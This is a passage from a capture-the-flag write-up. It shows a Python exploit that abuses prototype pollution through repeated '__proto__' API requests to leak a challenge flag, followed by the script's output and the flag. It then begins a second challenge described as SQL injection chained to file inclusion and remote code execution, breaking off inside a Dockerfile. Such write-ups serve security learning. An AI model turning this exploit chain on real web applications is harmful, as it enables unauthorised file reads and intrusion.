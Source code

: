 ```python

# Login
token = requests.post(CHALL_URL + '/api/users/auth', headers=HEADER, data=json.dumps({"userid":USERNAME, "pass":PASSWORD})).json()
TOKEN = token['token'] 
print(f"[+] Token : {TOKEN}")

# Prototype Pollution * 6
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"pass", "file_path":"pass"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"owner", "file_path":"pass"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"expire", "file_path":"100000000000"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"base_dir", "file_path":"/usr"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"src/app/flag", "file_path":"src/app/flag"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"workspaces", "file_path":"asdf"}))

# Leak the flag
LEAK_DATA = requests.get(CHALL_URL + '/api/users/pass/__proto__/src%2fapp%2fflag', headers=HEADER, data=json.dumps({"token":"pass"})).json()

try:
    print(f"[+] Leak Data : {base64_decode(LEAK_DATA['file_content'])}")
except:
    print(f"[+] Leak Data : {LEAK_DATA}")
```
I wrote the exploit code as above.

```sh
❯ python3 nss-poc.py 
[+] USERNAME : 4896
[+] Token : b9ab24d6a79dda202bf365541d67998a2c5bf5ce
[+] Leak Data : b'GoN{4he_be4uty_0f_pr0t0typ3_p011uti0n}\n'
```
```plaintext
FLAG : GoN{4he_be4uty_0f_pr0t0typ3_p011uti0n}
```

---
### (V) - ColorfulMemo [490 pts]

This is a challenge that triggers RCE via LFI vulnerability after uploading using SQL Injection.

```docker
FROM mysql:8.0-debian

ENV MYSQL_RANDOM_ROOT_PASSWORD=yes
ENV MYSQL_USER=user
ENV MYSQL_PASSWORD=password
ENV MYSQL_DATABASE=colorfulmemo
ENV TZ=Asia/Seoul
ENV OPENSSL_CONF=/dev/null

RUN sed -i 's/deb.debian.org/mirror.kakao.com/g' /etc/apt/sources.list 

RUN apt-get update -y \
 && DEBIAN_FRONTEND=noninteractive \
    apt-get install --no-install-recommends -y \
        gcc wget bzip2 python3-pip python3-setuptools \
        software-properties-common apache2 php php-mysqli \
        chrpath libssl-dev libxft-dev \
```